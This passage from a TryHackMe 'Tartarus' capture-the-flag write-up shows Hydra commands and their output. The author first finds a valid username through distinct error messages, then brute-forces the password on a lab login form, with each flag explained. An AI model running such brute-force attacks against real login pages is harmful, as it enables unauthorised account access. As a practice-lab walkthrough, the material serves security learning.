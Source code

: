 But I get the error 'Incorrect username!'. Its highlighting the username is wrong, not the username or password is wrong. I can use this error message along with the userid file to find the correct username(s).

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Tartarus]
└──╼ $hydra -L userid -p "test" tartarus http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^&Login=Login:Incorrect username!"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-26 16:53:45
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 13 tasks per 1 server, overall 13 tasks, 13 login tries (l:13/p:1), ~1 try per task
[DATA] attacking http-post-form://10.10.30.144:80/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^&Login=Login:Incorrect username!
[80][http-post-form] host: 10.10.30.144   login: <HIDDEN>   password: test
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-26 16:53:55
```

I used hydra to test each of the usernames to see which were failed. 

- -L - username file
- -p - I used "test" as a place holder password for now
- tartarus - The target
- http-post-form - Perform a POST request
- /sUp3r-s3cr3t/authenticate.php: - Is the directory/webpage to target
- username=^USER^&password=^PASS^&Login=Login: - These are the values the webpage is expecting, ^^ tell Hydra what to populate in those fields.
- Incorrect username! - Tells hydra what a failed message will include

We have a username, I repeated the process but this time to check for the password.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Tartarus]
└──╼ $hydra -l <HIDDEN> -P credentials.txt 10.10.30.144 http-post-form "/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^&Login=Login:Incorrect password!"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-26 17:02:23
[DATA] max 16 tasks per 1 server, overall 16 tasks, 101 login tries (l:1/p:101), ~7 tries per task
[DATA] attacking http-post-form://10.10.30.144:80/sUp3r-s3cr3t/authenticate.php:username=^USER^&password=^PASS^&Login=Login:Incorrect password!
[80][http-post-form] host: 10.10.30.144   login: <HIDDEN>   password: <HIDDEN>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-26 17:02:24
```

All I need to change was the error message, the username and password flags and values. Now with the username and password I will try and log in.

![upload](/assets/images/tartarus/upload.png)
